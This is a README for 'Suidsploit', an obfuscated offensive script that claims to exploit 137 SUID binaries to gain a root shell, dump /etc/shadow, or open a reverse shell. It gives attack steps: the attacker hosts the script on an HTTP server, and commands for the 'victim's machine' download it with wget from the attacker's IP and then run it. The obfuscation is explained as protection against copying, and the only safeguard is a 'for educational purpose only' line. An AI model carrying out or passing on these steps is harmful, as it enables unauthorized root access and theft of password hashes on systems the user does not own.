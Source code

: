 # Suidsploit by Tizun & Silky

[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

Suidsploit is a Tool which can exploit 137 files from GTFO-Bins.
On successful exploitation you can gain:

- Root Shell
- Output of /etc/shadow
- Reverse shell

# Why it's obfuscated?

- Simply because the creators don't want that their program is ripped

# Usage:
Open your favorite Terminal and run these commands.
On your machine:
- Download Suidsploit
- Start a HTTP-Server

'''sh
$ git clone https://github.com/S1lkys/Suidsploit.git
$ cd Suidsploit/
$ python -m SimpleHTTPServer 80
'''

On victims machine:
- download Suidsploit
- make it executable
- execute Suidsploit

'''sh
$ wget http://192.168.xxx.xxx/Suidsploit.ob.sh
$ chmod +x Suidsploit.ob.sh
$ bash Suidsploit.ob.sh
'''
### Todos

- Fix found Bugs
- Add new Tools

License
----
For educational Purpose only!
---
